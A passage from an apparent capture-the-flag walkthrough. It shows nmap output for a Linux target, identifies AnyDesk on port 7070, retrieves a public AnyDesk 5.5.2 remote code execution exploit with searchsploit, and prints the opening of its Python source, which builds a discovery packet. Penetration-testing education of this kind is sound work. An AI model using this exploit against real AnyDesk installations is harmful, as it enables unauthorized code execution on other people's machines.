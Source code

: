 ```console
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDA0R7eKVAIQzgsQ1QLoI7zzRYcaNBJ0wZtCbG1n5lR51Jfr2CC6+IVVxzleo0wCtfV9tcgtRXVdrju+29xaBR/Hin16MAf7QM4cY5dt46pgADnbwSXAy8GpnuCT10tTrL27gpKM2ayqmlpnKSxL2daP5uhkuoZCI3EYOvbaoPn4/u4vKeH64bk/s5zTE2JeIV/CwQnheYc1ZhwiJQD5k11735k+NfhD7pmhNY+QpG6qZNyFZ4APqdktrnDFetksOkC2NF4D8/OOjDsYkmofeIe+2fe01BHO4KFnRrKI3aSNDQdeNIQIL7LgKufgQ+yP0WmRLOThsiwu22jUG/8Ot1f
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBH+EwC6q+M+qEr2TTccTtvcNF7dfougjgrZzZG4ShpTnNo1KXJy6iTnW/al9mxm/ecZVSF45w3Z3IYwAi9nfrdU=
|   256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBgcqbntpdHoH14/wXi5gysaIvv0hOk+VvCUNmVjhkMQ
7070/tcp  open  tcpwrapped syn-ack ttl 61
42007/tcp open  tcpwrapped syn-ack ttl 61
46467/tcp open  tcpwrapped syn-ack ttl 61
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After some research, I found that TCP port 7070 is commonly used with AnyDesk software. To test that theory, I checked online for exploits for AnyDesk and found one that looked promising. 

![](../images/screenshots/Pasted%20image%2020220704132548.png)

I grabbed that exploit using `searchsploit`.

```console
$ searchsploit -m 49613
```

### Exploit
#### Updating the exploit code
Reviewing the code, we can see there are a couple of things we need to update for it to work. 

```python
# Exploit Title: AnyDesk 5.5.2 - Remote Code Execution
# Date: 09/06/20
# Exploit Author: scryh
# Vendor Homepage: https://anydesk.com/en
# Version: 5.5.2
# Tested on: Linux
# Walkthrough: https://devel0pment.de/?p=1881

#!/usr/bin/env python
import struct
import socket
import sys

ip = '192.168.x.x'
port = 50001

def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d
```